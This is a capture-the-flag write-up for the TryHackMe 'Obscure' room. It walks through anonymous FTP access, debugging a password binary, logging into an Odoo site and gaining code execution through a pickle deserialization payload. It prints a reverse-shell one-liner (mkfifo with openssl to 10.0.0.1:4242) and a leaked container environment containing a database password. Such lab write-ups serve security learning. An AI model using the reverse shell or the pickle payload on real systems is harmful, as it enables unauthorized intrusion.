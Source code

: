# Obscure

[Obscure](https://tryhackme.com/room/obscured)

## Solution

- nmap scan: 21, 22, 80

### Part 1

We see from the nmap scan that we can connect using anonymous session with ftp.
In the fpt session we find a `notice.txt` file and an ELF executable called
`password`. From the notice `password` is an application that stores passwords?

Intresting `strings`:

```
SecurePaH
ssword12H
```

We can `chmox +x password` and try to run it. We get the following message:

```
Password Recovery
Please enter your employee id that is in your email
```

If we try to break  the app with a very long string we get `*** stack smashing
detected ***: terminated` so we might not be able to redirect code execution.
We can try to gdb into the executable and try to see if we can somehow exploit
the tool.

Using gdb we can see that the input is compared using strcmp with `971234596`,
which is one of the strings of the executable, and it seems that it is the user
id. We can try to run the executable with that value.

After runnin the `password` tool with the input `971234596` we get
`SecurePassword123!`. This might be useful later. Maybe there is something else
in the code that we can do.

We can access the website on port 80. After playing around a bit, I tried to go
to `Manage Databases`. There I tried to run backup and provided the password
that we got from the executable. And it downloaded a zip archive.

Scanning trought the `dump.sql` file I found something interesting `1	t
admin@antisoft.thm		1	3	\N	f	1	\N	\N	2022-07-23 10:52:10.087949
<span data-o-mail-quote="1">-- <br data-o-mail-quote="1">\nAdministrator</span>
$pbkdf2-sha512$12000$lBJiDGHMOcc4Zwwh5Dzn/A$x.EZ/PrEodzEJ5r4JfQo2KsMZLkLT97xWZ3LsMdgwMuK1Ue.YCzfElODfWEGUOc7yYBB4fMt87ph8Sy5tN4nag`

Funny enough, the login `admin@antisoft.thm` and password `SecurePassword123!`
works on the website. (We can try and see if hashcat finds the same password,
but it's not necessary).

I was randomly clicking on the sidebar (Apps, Updates) and got an error
`Uncaught TypeError: Cannot read properties of null (reading '0')`. Not sure if
it is relevant or not. There is also a `Settings` tab. Maybe that is more
interesting.

I searched for odoo on exploitdb and found something that looks promising. This
seems to match with the version that we have and is an actual thing. I spent so
much time on that. But it didn't work first try. I am too deep to not continue
on this rabbit hole. https://www.exploit-db.com/exploits/44064 There is another
button `Activate developer mode`... smh. Idk if that does something. Still no
idea what to do from here.

Well, the database anonymous exploit was actually the way to go. I just needed
to try a different connection method. You need to use pickle and pyhton2.7 for
this to work. Basically do the reverse of what happens on the server. After
many experiments, they do pickle.load (no base64, just raw).

```
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

So we need to put the victim command as the payload for a pickled file. Create
a class that extends object and in the `__reduce__` method return a tuple
`(os.system, (payload,))`. This will execute the payload on pickle.load.
Full script `./expickle/exploit.py`.

Next go to the home directory and cat the flag file.

### Part 2

It looks like we are logged in as `odoo` and we are inside a docker container.

```
HOSTNAME=b8a9bbf1f380
DB_PORT=tcp://172.17.0.2:5432
SHLVL=0
DB_ENV_PG_MAJOR=9.4
HOME=/var/lib/odoo
OLDPWD=/var
DB_NAME=/unkkuri-odoo/db
DB_PORT_5432_TCP=tcp://172.17.0.2:5432
DB_ENV_PGDATA=/var/lib/postgresql/data
ODOO_RC=/etc/odoo/odoo.conf
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DB_ENV_PG_VERSION=9.4.26-1.pgdg90+1
DB_ENV_LANG=en_US.utf8
ODOO_VERSION=10.0
PWD=/
DB_PORT_5432_TCP_ADDR=172.17.0.2
DB_ENV_POSTGRES_PASSWORD=unkkuri-secret-pw
DB_ENV_GOSU_VERSION=1.11
TZ=UTC
DB_PORT_5432_TCP_PORT=5432
DB_ENV_POSTGRES_USER=odoo
DB_PORT_5432_TCP_PROTO=tcp
```
